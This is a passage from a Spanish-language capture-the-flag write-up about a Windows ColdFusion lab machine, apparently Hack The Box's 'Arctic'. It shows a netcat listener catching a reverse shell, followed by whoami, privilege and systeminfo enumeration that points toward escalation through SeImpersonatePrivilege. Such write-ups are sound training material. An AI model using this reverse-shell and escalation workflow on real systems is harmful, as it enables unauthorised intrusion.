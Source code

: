 `Ganamos acceso` a la máquina víctima

```
# nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.186.242] 50325
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```
## Privilege Escalation

`Listamos` los `privilegios` de nuestro usuario y vemos que `SeImpersonatePrivilege` está habilitado

```
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

`Listamos` la `información` del sistema

```
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          7/8/2024, 3:08:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.017 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.176 MB
```